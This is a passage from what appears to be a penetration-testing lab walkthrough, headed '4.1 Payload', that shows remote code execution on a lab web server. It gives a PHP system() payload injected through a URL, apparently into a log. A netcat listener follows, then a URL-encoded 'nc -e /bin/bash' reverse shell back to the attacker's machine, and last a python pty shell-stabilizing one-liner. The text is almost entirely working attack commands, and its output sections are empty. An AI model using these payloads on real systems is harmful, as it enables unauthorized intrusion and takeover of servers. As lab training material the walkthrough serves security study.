



4.1 Payload
1. Insert a payload in the URL.
http://192.168.12.65/access.php?id=%3C?php system($_GET["pwned"]); ?%3E
2. On your Kali Linux open a “netcat” connection.
$ nc -lnvp 5555
Output:

3. Insert a “Reverse Shell” in the URL.
http://192.168.12.65/log.php?pwned=nc%20-e%20/bin/bash%20192.168.12.60%205555
Output:

4. Stabilize the shell.
$ python3 -c 'import pty;pty.spawn("/bin/bash")'Output:
